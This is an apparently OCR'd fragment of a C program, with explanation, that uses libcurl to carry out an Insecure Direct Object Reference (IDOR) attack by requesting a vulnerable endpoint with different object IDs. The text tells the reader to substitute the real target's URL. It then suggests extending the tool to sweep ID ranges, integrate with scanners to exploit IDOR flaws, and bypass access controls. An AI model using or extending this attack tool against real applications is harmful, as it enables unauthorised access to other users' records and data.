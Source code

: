 ```c
    }

    // Craft the URL for the IDOR attack
    char url[1000];
    snprintf(url, sizeof(url), "%s%d", TARGET_URL, id);
    curl_easy_setopt(curl, CURLOPT_URL, url);

    // Perform the IDOR attack
    res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        fprintf(stderr, "Error performing IDOR attack: %s\n", curl_easy_strerror(res));
        curl_easy_cleanup(curl);
        exit(EXIT_FAILURE);
    }

    // Cleanup libcurl
    curl_easy_cleanup(curl);
}

int main() {
    printf("Starting Insecure Direct Object Reference (IDOR) attack...\n");

    // Perform the IDOR attack with different object references
    perform_idor(1); // Try accessing object with ID 1
    perform_idor(2); // Try accessing object with ID 2

    printf("IDOR attack completed.\n");

    return 0;
}
```

#### Explanation:

- The `perform_idor` function demonstrates an IDOR attack by using libcurl to make requests to a vulnerable endpoint with different object references (IDs).
- In this example, the vulnerable endpoint URL is hardcoded (`http://example.com/vulnerable_endpoint?id=`). Replace this with the actual URL of the vulnerable endpoint in the target application.
- The `perform_idor` function is called with different object references (IDs) to attempt accessing unauthorized resources.
- This example utilizes the libcurl library for making HTTP requests. Make sure to link your program against libcurl (`-lcurl`).

#### Further Development:

To make this tool more versatile and effective, you can enhance it with the following features:

- Support for iterating through a range of object references to discover and access unauthorized resources systematically.
- Integration with web vulnerability scanners or automated testing frameworks to identify and exploit IDOR vulnerabilities in target web applications.
- Implementation of techniques such as parameter tampering or access control bypass to further exploit IDOR vulnerabilities and access restricted resources.
